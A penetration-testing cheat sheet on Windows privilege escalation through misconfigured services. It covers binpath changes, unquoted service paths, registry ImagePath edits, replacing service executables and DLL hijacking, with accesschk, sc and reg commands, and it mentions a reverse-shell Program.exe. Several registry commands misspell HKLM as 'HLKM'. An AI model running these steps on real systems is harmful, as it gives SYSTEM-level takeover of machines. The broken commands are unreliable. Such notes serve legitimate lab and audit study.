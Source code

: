 # Service Exploits

If we have permissions to change the configuration of a service which runs in the context of SYSTEM we cna change the executable with a malicious one.

**Note:** We should have stop/start permissions, otherwise we would need to restart the machine.

## First steps

Run winPEAS to check services info:

```bash
.\winPEAS.exe quit servicesinfo
```

Use accesschk.exe to view our permissions on a service:

```bash
.\accesschk.exe /accepteula -uwcqv $user $service
```

Query the configuration of that service:

```bash
sc qc $service
#SERVICE_START_NAME : LocalSystem = SYSTEM
```

Query the current state of the service (stopped/running):

```bash
sc query $service
```

## Insecure service properties

We can change the default binpath of the service and the restart that service:

```bash
sc config $service binpath= "\"C:\XXXX\xxx.exe""
```

_____

## Unquoted service paths

Fist check if we find any unquoted service path and we have permissions to restart it.

```bash
.\accesschk.exe /accepteula -ucqv $user $service
```

Now check for writable permissions on the paths:

```bash
.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq C:\Program Files\
.
.
```

In the above example if we have write permissions under the "C:\" directory we can create a malicious file called Program.exe which establishes a reverse shell.

Now we only need to start the service again:

```bash
net start $service
```
_____

## Weak Registry Permissions

Windows registry stores entries for each service. If ACLs are misconfigured we can change services configuration.

First check the permissions with PS or accesschk:

```bash
powershell -exec bypass
Get-Acl HKLM:\System\CurrentControlSet\Services\$service | Format-List

.\accesschk.exe /accepteula -uvwqk HLKM\System\CurrentControlSet\Services\$service

#NT AUTHORITY\INTERACTIVE is a group with users that can log on to the machine locally.
```

Check if we can restart the service:

```bash
.\accesschk.exe /accepteula -ucqv $user $service
```

Check the current values in the service registry entry:

```bash
reg query HLKM\System\CurrentControlSet\Services\$service
```

Change the executable of the service:

```bash
reg add HLKM\System\CurrentControlSet\Services\$service /v ImagePath /t REG_EXPAND_SZ /d C:\malicious.exe
```

Restart the service.
_____

## Insecure Service Executables

If we can change the original executable we can replace it directly.

Verify if we can modify the executable:

```bash
.\accesschk.exe /accepteula -quvw "C:\XX\XX.exe"
```

Check if we can restart the service and then replace it.

_____

## DLL Hijacking

Analyze the executable and find which dlls the program is trying to use. If we have writable permissions on that DLL we can replae it.

Another example is when a DLL is missions from the system and we have writable access to a directory withing the PATH that Windows searches for DLLs.
